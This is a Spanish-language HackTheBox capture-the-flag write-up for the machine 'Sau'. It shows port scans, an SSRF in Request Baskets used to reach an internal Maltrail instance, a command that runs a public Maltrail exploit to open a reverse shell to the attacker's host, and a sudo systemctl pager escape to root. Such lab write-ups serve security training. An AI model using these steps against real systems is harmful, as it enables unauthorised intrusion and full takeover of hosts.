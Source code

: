 ```yaml
---
layout: post
title: Sau
img_path: "/assets/img/Sau/"
image: Sau.png
categories:
- HackTheBox
- Easy
permalink: "/sau/"
tags:
- Request Baskets
- CVE-2023-27163
- Maltrail
- SSRF
- Inyección de comandos
- sudo
date: 2024-01-08 12:40 +0100
---
```

`Sau` es una máquina Linux de dificultad baja que cuenta con una instancia de `Request Baskets` vulnerable a la falsificación de solicitudes del lado del servidor (SSRF) a través de [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163). Al aprovechar esta vulnerabilidad, logramos acceder a una instancia de `Maltrail` que es vulnerable a la inyección de comandos del sistema operativo sin autenticación, lo que nos permite obtener una shell inversa en la máquina como `puma`. Luego, se explota una mala configuración de `sudo` para obtener una shell con privilegios de `root`.

## **ENUMERACIÓN**

Realizamos un escaneo para ver los puertos abiertos de la máquina.

```
nmap -p- --open -min-rate 5000 -n -vvv -Pn 10.129.33.23 -oG allPorts

PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack
55555/tcp open  unknown syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 11.06 seconds
```

Una vez que conocemos los puertos, realizamos un escaneo más exhaustivo para conocer su versión y servicio.

```
nmap -p22,55555 -sCV 10.129.33.23 -oN targeted

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Thu, 28 Dec 2023 11:29:19 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Thu, 28 Dec 2023 11:28:53 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Thu, 28 Dec 2023 11:28:54 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94SVN%I=7%D=12/28%Time=658D5BF5%P=x86_64-pc-linux-gnu
SF:%r(GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/ht
SF:ml;\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Thu,\x2028\x20Dec
SF:\x202023\x2011:28:53\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=
SF:\"/web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x
SF:20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnectio
SF:n:\x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\
SF:x20200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Thu,\x2028\x20Dec
SF:\x202023\x2011:28:54\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReq
SF:uest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pl
SF:ain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Requ
SF:est")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x2
SF:0text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad
SF:\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\
SF:r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20
SF:400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\
SF:r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,
SF:67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\
SF:x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")
SF:%r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opt
SF:ions:\x20nosniff\r\nDate:\x20Thu,\x2028\x20Dec\x202023\x2011:29:19\x20G
SF:MT\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x2
SF:0name\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250
SF:}\$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-T
SF:ype:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400
SF:\x20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x2
SF:0close\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.74 seconds
```

### Puerto 55555

En la captura de nmap, podemos ver que en el puerto `55555` hay un servicio web. Utilizamos la herramienta `whatweb` para conocer las tecnologías que utiliza.

![](Pasted image 20231228123512.png)

Accedemos a la web y podemos ver que utiliza `request-baskets - 1.2.1`. Esta versión es vulnerable a `Server-Side Request Forgery`.

![](Pasted image 20231228125106.png)

Creamos un `basket` y accedemos a las opciones. Dentro de las opciones, vamos a añadir que nos redireccione a la dirección `http://127.0.0.1:80`, donde puede haber un servicio web inaccesible desde fuera.

![](Pasted image 20231228130132.png)

Accedemos a la dirección `http://10.129.33.23:55555/pwned` y nos redirecciona al puerto 80, donde encontramos un `Mailtrail - 0.53`

![](Pasted image 20231228130216.png)

## **EXPLOTACIÓN**

Podemos utilizar el siguiente [exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) para obtener una reverse shell a través de un `Remote Code Execution`.

```
python3 exploit.py 10.10.14.59 443 http://10.129.33.23:55555/pwned
```

![](Pasted image 20231228130516.png)

## **ESCALADA DE PRIVILEGIOS**

Para la escalada de privilegios, utilizamos el comando `sudo -l` para ver qué comandos podemos ejecutar como usuario privilegiado sin necesidad de proporcionar contraseña.

![](Pasted image 20231228130911.png)

Podemos ejecutar el comando `sudo /usr/bin/systemctl status trail.service` para ver el estado del servicio y obtener una shell como usuario privilegiado con `!sh`.

![](Pasted image 20231228131752.png)

